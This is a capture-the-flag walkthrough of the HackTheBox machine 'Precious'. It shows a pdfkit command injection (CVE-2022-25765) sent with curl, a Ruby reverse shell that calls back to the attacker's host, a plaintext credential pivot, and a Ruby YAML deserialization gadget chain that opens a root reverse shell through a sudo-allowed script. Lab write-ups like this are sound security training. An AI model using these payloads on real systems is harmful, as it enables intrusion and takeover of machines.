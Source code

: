 ```yaml
---
layout: post
title: Precious
date: 2025-02-9 14:03 +0100
author: lone
description: Precious Easy Linux machine
image: /assets/img/precious/precious.webp
category: HackTheBox
tags: htb box writeup
published: true
sitemap: false
---
```


## Inital access

```bash
nmap -T4 -p- -min-parallelism 40 10.10.11.XXX
```
![Nmap Scan TCP](/assets/img/precious/scantcp.png)

```bash
echo "10.10.11.XXX precious.htb" | sudo tee -a /etc/hosts
```

Let's take a look at the website.

![Precious Website](/assets/img/precious/website.png)

It looks like you can convert web pages to pdf, but the machine only seems to have access to the internal network. Let's host a web page quickly to analyze the pdf.

```bash
exiftool u3oysnv[...]d00u0qq.pdf

ExifTool Version Number         : 12.76
[...]
Creator                         : Generated by pdfkit v0.8.6
```
pdfkit v0.8.6 seems to be vulnerable to a command injection ([CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)) 
Let's try it out this payload

`http://10.10.XX.XX:80/?name=%20``whoami`` `

We URL Encode it before sending it
```bash
curl 'http://precious.htb' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'url=http%3A%2F%2F10.10.XX.XX%3A80%2F%3Fname%3D%2520%60whoami%60'
```

And we receive a response on our server :

```bash
10.10.11.XXX - - [XX/XX/XX XX:XX:XX] "GET /?name=%20ruby HTTP/1.1" 200 -
```

Time to craft ourselves a reverse shell ! 
Let's setup a listenner :
```bash
pwncat-cs -p 1234
```

```ruby
ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.XX.XX",1234))'
```

We replace whoami by this new payload
```bash
curl 'http://precious.htb' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d "url=http://10.10.XX.XX/?name=%2520%60ruby%20-rsocket%20-e'spawn(%22sh%22,%5B:in,:out,:err%5D=%3ETCPSocket.new(%2210.10.XX.XX%22,XXXX))'%60"
```

![Reverse Shell](/assets/img/precious/reverseshell.png)

There is a .bundle in the home directory of our user ruby. Let's investigate :

![Ruby Conf file](/assets/img/precious/rubypivottohenry.png)

Clear text password for the user henry ! And with this we got our first flag :

![First Flag](/assets/img/precious/henryflag.png)

## Privilege escalation

```bash
sudo -l

(root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

So let's see what does the script do

```ruby
cat /opt/update_dependencies.rb 
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

Seems we have a control on dependencies.yml that is load via YAML.load(). We find a [blogpost](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) about ruby deserialization via YAML.

Let's take and modify a bit the payload :

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.XX.XX",1234))' #modify the command here
         method_id: :resolve
```

Prepare your listenner then use our sudo privilege to run the ruby script in the folder where our payload is.

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
You should catch a root shell and find the root flag !

![Root Flag](../assets/img/precious/rootflag.png)

## TL;DR 
> Precious is an Easy Difficulty Linux machine, that focuses on the `Ruby` language. It hosts a custom `Ruby` web application, using an outdated library, namely pdfkit, which is vulnerable to `CVE-2022-25765`, leading to an initial shell on the target machine. After a pivot using plaintext credentials that are found in a Gem repository `config` file, the box concludes with an insecure deserialization attack on a custom, outdated, `Ruby` script.
{: .prompt-tip }
